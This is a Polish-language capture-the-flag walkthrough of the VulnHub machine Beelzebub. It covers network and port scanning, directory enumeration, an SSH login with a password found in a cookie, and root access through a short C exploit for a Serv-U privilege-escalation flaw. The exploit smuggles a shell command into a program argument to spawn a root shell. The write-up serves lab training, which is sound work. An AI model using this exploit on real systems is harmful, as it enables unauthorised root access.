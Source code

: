 # **CTF - Beelzebub**

`Autor`: adi7312

**Poziom trudności**: łatwy

**Link do maszyny**: [Beelzebub](https://www.vulnhub.com/entry/beelzebub-1,742/).


## **Skanowanie sieci**

**Cel:** Znaleźć IP podatnej maszyny.

W celu znalezienia maszyny *Beelzebub* korzystamy z polecenia:

    netdisocer -r 192.168.138.0/24


![](p/1.png)


**IP Beelzebub'a: 192.168.138.136**


## **Skanowanie portów**

**Cel:** Dokonać enumeracji wersji usług, dowiedzieć się na jakim systemie operacyjnym działa host


    nmap 192.168.138.136 -sV -O -Pn


![](p/2.png)


Jak widzimy host operuje na 2 portach: 22 - ssh, 80 - http.


## **Enumeracja**

Korzystamy z narzędzia *dirb*, wpisujemy polecenie:

    dirb http://192.168.138.136:80/

Wynikiem tego polecenia jest lista plików i folderów które znajdują się w naszym wrażliwym hoście. Przejrzyjmy sobie część tych plików zacznijmy od *index.php* w głównym katalogu.

![](p/3.png)

Wpisując w przeglądarkę *http://192.168.138.136:80/index.php* nie otrzymujemy nic ciekawego, jednak w samym kodzie źródłowym możemy znaleźć podpowiedź.

![](p/4.png)


Zamieńmy zatem wartość *beelzebub* na hash md5.

    echo -n "beelzebub" | md5sum

    Output: d18e1e22becbd915b45e0e655429d487

Spróbujmy teraz przejść na stronę z danym hashem i odziwo nie dostajemy *Not found* tylko *unable to connect* oznacza to, że dany folder istnieje ale nie możemy połączyć sie na daną stronę, ponownie dokonujemy enumeracji.

    dirb http://192.168.138.136/d18e1e22becbd915b45e0e655429d487/


![](p/5.png)


Z powyższych katalogów najbardziej będzie nas interesować *wp-content/uploads*. W przeglądarce wygląda on tak:

![](p/7.png)

Po wejściu w kataolog Talk to VALAK ukazuje nam się strona, wpisujemy tam dowolną nazwę i patrzymy na zakładkę Network w Web Developerze.

![](p/6.png)

W nagłówku znajdował się plik *cookie* ustawiający hasło *M4k3Ad3a1*. Widziliśmy wcześniej że host ma otwarty port ssh, więc połączymy się z naszym hostem przez ssh. Wpisujemy więc polecenie:

    ssh krampus@192.168.138.136

Oraz podajemy zdobyte przed chwilą hasło.

## **Eskalacja uprawnień oraz zdobycie flagi**


![](p/8.png)


Po zalogowaniu się, możemy potwierdzić że jesteśmy użytkownikiem *krampus* poleceniem `whoami`. Następnie używamy polecenia `sudo -l`, jednak nasz użytkownik nie może wykonać żadnego polecenia *sudo*, zatem szukamy wskazówek gdzie indziej. Po wpisaniu polecenia `ls -la` widzimy pewien element nazwany *.Serv-U-Tray.conf*, po krótki researchu dowiedzielismy się że możemy wykorzystać podatność serwera FTP Serv-u-tray do eskalacji uprawnień, tworzymy plik poleceniem: `touch priv_esc.c` oraz edytujemy jego zawartość poleceniem `nano priv_esc.c`. Wpisujemy poniższy kod.

```c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

W nastepnej kolejności należy skompilować nasz program, robimy to poleceniem `gcc priv_esc.c`. Kompilator utworzył nam plik *a.out*, nadajemy temu plikowi uprawnienia *executable* poleceniem `chmod +x a.out`. Wykonujemy nasz program poleceniem `./a.out`. Otrzymaliśmy uprawnienia roota.

W celu zdobycia flagi użytkownika wchodzimy na puplit Krampusa i otwieramy flagę *user.txt*.

    cd /home/krampus/Desktop; cat user.txt
    Output: aq12uu909a0q921a2819b05568a992m9


W celu zdobycia flagi *roota* przechodzimy do katalogu */root* i otwieramy flagę.

    cd /root; cat root.txt
    Output: 8955qpasq8qq807879p75e1rr24cr1a5
    